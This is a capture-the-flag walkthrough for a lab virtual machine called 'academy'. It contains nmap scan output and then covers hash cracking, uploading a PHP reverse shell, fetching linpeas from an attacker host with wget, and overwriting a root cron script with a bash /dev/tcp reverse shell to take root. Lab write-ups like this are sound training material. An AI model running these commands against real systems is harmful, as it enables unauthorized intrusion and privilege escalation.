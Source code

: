 ```
|   256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)  
|_  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)  
80/tcp open  http    Apache httpd 2.4.38 ((Debian))  
|_http-title: Apache2 Debian Default Page: It works  
|_http-server-header: Apache/2.4.38 (Debian)  
MAC Address: 08:00:27:21:0C:70 (Oracle VirtualBox virtual NIC)  
Device type: general purpose  
Running: Linux 4.X|5.X  
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5  
OS details: Linux 4.15 - 5.8  
Network Distance: 1 hop  
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel  
  
TRACEROUTE  
HOP RTT     ADDRESS  
1   0.39 ms 192.168.7.21  
  
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 9.38 seconds
```


* we begin enumeration, starting with FTP and HTTP
	 * from the ftp server we can get the file ``ǹote.txt`` which contains some data with an id and a password(use hash-identifier to view what kind of hash) cracked with hashcat (hashcat -m 0 hashes "wordlist" (md5)) the hash gave us "student" as password
	  * running dirb on the website we get some endpoint like academy let's try to login with id and password 
	  * we have a functionality to upload an image so we uploaded a php reverse shell and set up the listener and got a reverse shell 
	  * using this reverse shell let's proceed : 
```
>attacker_machine[/transfers]# python3 -m http.server 80 

>reverse_shell# wget http://attacker_address/linpeas.sh

>chmod +x linpeas.sh
>./linpeas.sh #executes the script
#/home/grimmie/backup.sh is highlighted in red/yellow, so it could be important
#gives mysql_password = "My_V3ryS3cur3_P4ss"


>ssh grimmie@acadeym_address 
#on trying user "grimmie" and password "My_V3ryS3cur3_P4ss" on phpmyadmin, it works and we get access

#use pspy64 to view all the services running we see that backup.sh is running as root after a period so let's change it with a one line reverse shell 

(backup.sh)
#!/bin/bash
bash -i >& /dev/tcp/192.168.7.14/8081 0>&1

```
and there we go we get root access and pwned the machine
